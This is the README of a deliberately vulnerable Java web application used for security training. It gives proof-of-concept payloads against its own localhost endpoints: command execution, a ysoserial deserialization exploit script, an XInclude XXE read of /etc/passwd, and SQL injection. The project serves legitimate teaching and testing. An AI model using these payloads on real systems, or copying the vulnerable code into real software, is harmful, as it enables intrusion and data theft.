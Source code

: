 # Java Security Code

## 介绍

该项目也可以叫做Java Vulnerability Code(Java漏洞代码)。

每个漏洞类型代码默认存在安全漏洞（除非本身不存在漏洞），相关修复代码在注释里。具体可查看每个漏洞代码和注释。

## 漏洞代码

- [XXE](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XXE.java)
- [SSRF](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SSRF.java)
- [URL重定向](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/URLRedirect.java)
- [IP伪造](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/IPForge.java)
- [XSS](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XSS.java)
- [CRLF注入](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/CRLFInjection.java)
- [远程命令执行](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Rce.java)
- [反序列化](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Deserialize.java)
- [文件上传](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/FileUpload.java)
- [SQL注入](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SQLI.java)

## 如何运行


### Tomcat

1. 生成war包 `mvn clean package`
2. 将target目录的war包，cp到Tomcat的webapps目录
3. 重启Tomcat应用


```
http://localhost:8080/java-sec-code-1.0.0/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```

### IDEA

如果想在IDEA中直接运行，需要在IDEA中添加Tomcat配置，步骤如下：

```
Run -> Edit Configurations -> 添加TomcatServer(Local) -> Server中配置Tomcat路径 -> Deployment中添加Artifact选择java-sec-code:war exploded
```

![tomcat](https://github.com/JoyChou93/java-sec-code/raw/master/idea-tomcat.png)

配置完成后，右上角直接点击run，即可运行。

```
http://localhost:8080/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```


## SSRF

针对SSRF具体利用，可以阅读我写的[这篇博文](https://joychou.org/java/javassrf.html)。

## 反序列化

打包ysoserial

``` 
git clone https://github.com/frohoff/ysoserial.git
mvn clean package -DskipTests
```

执行exp

```python
#coding: utf-8
#author: JoyChou
#date:   2018.07.17

import requests
import subprocess

def poc(url , gadget, command):
	ys_filepath = '/Users/Viarus/Downloads/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
	popen = subprocess.Popen(['java', '-jar', ys_filepath, gadget, command], stdout=subprocess.PIPE)
	payload = popen.stdout.read()
	r = requests.post(url, data=payload, timeout=5)

if __name__ == '__main__':
	poc('http://127.0.0.1:8080/deserialize/test', 'CommonsCollections5', 'open -a Calculator')
```

## 文件上传

目前这类漏洞在spring里非常少，原因有两点：
1. 大多数公司上传的文件都会到cdn
2. spring的jsp文件必须在web-inf目录下才能执行

除非，可以上传war包到tomcat的webapps目录。所以就不YY写漏洞了。

访问`http://localhost:8080/file/`进行文件上传，上传成功后，再访问`http://localhost:8080/image/上传的文件名`可访问上传后的文件。

## XXE

### 支持Xinclude的XXE

2018年08月22日更新支持XInclude的XXE漏洞代码，详情见代码。

POC

```xml
<?xml version="1.0" ?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

URL编码后的payload

``` 
http://localhost:8080/xxe/DocumentBuilder_xinclude?xml=%3C%3fxml+version%3d%221.0%22+%3f%3E%0d%0a%3Croot+xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3E%0d%0a+%3Cxi%3ainclude+href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22+parse%3d%22text%22%2f%3E%0d%0a%3C%2froot%3E
```

详情可以查看[浅析xml之xinclude & xslt](https://www.anquanke.com/post/id/156227)

## SQL注入

### POC

访问`http://localhost:8080/sqli/jdbc?id=1' or 'a'='a`返回`joychou: 123 wilson: 456 lightless: 789`。

正常访问`http://localhost:8080/sqli/jdbc?id=1`返回`joychou: 123`

### 数据库表数据SQL

```sql

SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;

-- ----------------------------
-- Table structure for users
-- ----------------------------
DROP TABLE IF EXISTS `users`;
CREATE TABLE `users` (
  `name` varchar(255) NOT NULL,
  `password` varchar(255) NOT NULL,
  `isAdmin` varchar(255) NOT NULL,
  `id` int(10) NOT NULL AUTO_INCREMENT,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=4 DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;

-- ----------------------------
-- Records of users
-- ----------------------------
BEGIN;
INSERT INTO `users` VALUES ('joychou', '123', '1', 1);
INSERT INTO `users` VALUES ('wilson', '456', '0', 2);
INSERT INTO `users` VALUES ('lightless', '789', '0', 3);
COMMIT;

SET FOREIGN_KEY_CHECKS = 1;


```

### 说明

SQL注入修复方式采用预处理方式，修复见代码。Mybatis的`#{}`也是预处理方式处理SQL注入。

在使用了mybatis框架后，需要进行排序功能时，在mapper.xml文件中编写sql语句时，注意orderBy后的变量要使用${},而不用#{}。因为`#{}`变量是经过预编译的，${}没有经过预编译。虽然${}存在sql注入的风险，但orderBy必须使用`${}`，因为`#{}`会多出单引号`''`导致sql语句失效。为防止sql注入只能自己判断输入的值是否是否存在SQL。

```sql
select * from users order by 'id' desc  -- 排序无效，默认升序
select * from users order by id desc   -- 降序
```